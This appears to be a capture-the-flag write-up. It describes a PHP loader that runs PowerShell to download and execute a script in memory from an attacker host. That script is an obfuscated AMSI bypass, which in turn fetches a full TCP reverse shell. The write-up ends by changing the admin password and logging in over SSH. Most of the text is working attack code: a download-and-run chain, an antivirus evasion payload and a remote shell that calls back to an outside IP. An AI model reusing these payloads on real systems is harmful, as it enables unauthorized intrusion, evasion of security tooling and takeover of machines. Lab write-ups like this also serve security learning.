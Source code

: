 #### PHP Loader
```php
<?php
  function execute_cmd() {
    $init = "powershell.exe";
    $payload = "iex (New-Object Net.WebClient).DownloadString('http://10.50.107.226:8080/bypass.ps1')"; // Downloads and executes bypass.ps1 in memory
    $execution_command = "shell_exec";
    $query = $execution_command("$init $payload");
    echo $query; // Execute query
  }
  execute_cmd();
?>
```
The script tries to access a python webserver on my machine, grab bypass.ps1 from it, and execute it.

### Bypass.ps1
```powershell
 # AMSI Bypass - Matt Graeber - Obfuscated.
 &("{0}{1}{3}{2}"-f's','e','E',("{1}{2}{0}" -f'Bl','T-','VArIa')) ("n"+("{1}{0}"-f '1','h4b')) ([TyPE]("{1}{0}"-f'F','re') ) ;  (  .("{0}{1}{2}" -f("{2}{3}{1}{0}"-f'Ab','ari','get','-V'),'l','e') ("N"+("{1}{0}"-f '1','h4B'))  -vALueO)."AssemB`LY".("{2}{0}{1}" -f't',("{1}{0}"-f'e','Typ'),'Ge')."INvo`ke"(("{4}{9}{6}{3}{2}{1}{8}{7}{0}{5}" -f("{1}{0}" -f 'Ut','msi'),'oma','ut',("{2}{0}{1}"-f'ment.','A','ge'),'S','ils','ana','A',("{0}{1}"-f'tio','n.'),("{0}{1}"-f'yst','em.M'))).("{1}{0}" -f'ld',("{0}{1}{2}" -f 'G','etF','ie'))."Inv`oKe"(("{1}{4}{0}{2}{3}"-f ("{0}{1}{2}" -f'Init','F','a'),'ams','ile','d','i'),("{4}{2}{1}{0}{3}"-f ',','ic','l',("{0}{1}"-f 'S','tatic'),("{1}{0}"-f 'nPub','No'))).("{1}{0}"-f 'lue',("{0}{1}"-f 'Set','Va'))."i`Nv`Oke"(${Nu`Ll},${tr`Ue});

 # Downloads and executes rev_shell.ps1 in memory
 iex (New-Object Net.WebClient).DownloadString('http://10.50.107.226:8080/rev_shell.ps1');
```
The script bypasses AMSI to avoid issues that might come up, then tries to access my python webserver to grab rev_shell.ps1 and execute it.

### Rev_shell.ps1
```powershell
# Reverse Shell to Port 80
$client = New-Object System.Net.Sockets.TCPClient("10.50.107.226",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
This is a simple reverse shell I found online, I simply edited the IP and port, started up ncat, and waited for a connection.

### Getting the flag
After getting a scuffed shell, I wanted to upgrade it to a tty shell. The simplest way I could think of was just using the SSH.
I checked my current permissions, saw I had root access, changed the admin's password, and accessed it via SSH.
